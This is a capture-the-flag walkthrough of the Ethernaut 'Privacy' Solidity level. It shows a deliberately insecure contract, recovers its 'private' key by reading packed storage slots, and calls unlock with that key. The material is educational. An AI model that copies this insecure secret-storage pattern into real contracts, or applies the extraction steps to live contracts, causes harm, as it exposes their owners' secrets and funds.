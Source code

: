 # Privacy
_difficulty 8/10_

The creator of this contract was careful enough to protect the sensitive areas of its storage.  
Unlock this contract to beat the level.  
Things that might help:  
- Understanding how storage works  
- Understanding how parameter parsing works  
- Understanding how casting works  


Tips:  
- Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.  


## Sources
```javascript
pragma solidity ^0.4.18;

contract Privacy {

  bool public locked = true;
  uint256 public constant ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  function Privacy(bytes32[3] _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

## Level author  
Alejandro Santander  
palebluedot@gmail.com  
https://github.com/ajsantander  

## Solution

1. Open transaction on the `ropsten.etherscan.io`

2. Go to the "State Changes" tab and look at the data changed
```
0x000000000000000000000000000000000000000000000000000000c286ff0a01
0x859973068fce1f91dbc11565b4a325950c36e18211e339bb1c6d5c0a7af9e3fb
0xa47868d2b093ed1ea5d9c7a0098be2af316e2a7e5642a4ef0a83c87a23e5a1d7
0xb30aca730c04abca33bcf1bac726050b4f512ea0cad5395fd65002c54d037703
```

Looking at the contract code we can see several internal variables:  

```javascript
bool public locked = true;
uint256 public constant ID = block.timestamp;
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(now);
bytes32[3] private data;
```

Variables share 256 bits if they can fit. In the first storage space we have variables `bool locked` = 0x01, `uint8 flattening` = 0x0a, `uint8 denomination` = 0xff, and `uint16 awkwardness` = 0xc286. Constants don't use this storage.

Next three spaces are `bytes32[3]`. We will take the last one (index 2) and use only the first half.

3. Invoke `unlock` method using this parameter.  
`await contract.unlock("0xb30aca730c04abca33bcf1bac726050b")`  

4. Check if contract is unlocked.  
`await contract.locked()`  
false  

5. Submit instance 🎉  

## Lesson

Nothing in the ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Web3's `getStorageAt(...)` can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.  


It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925).
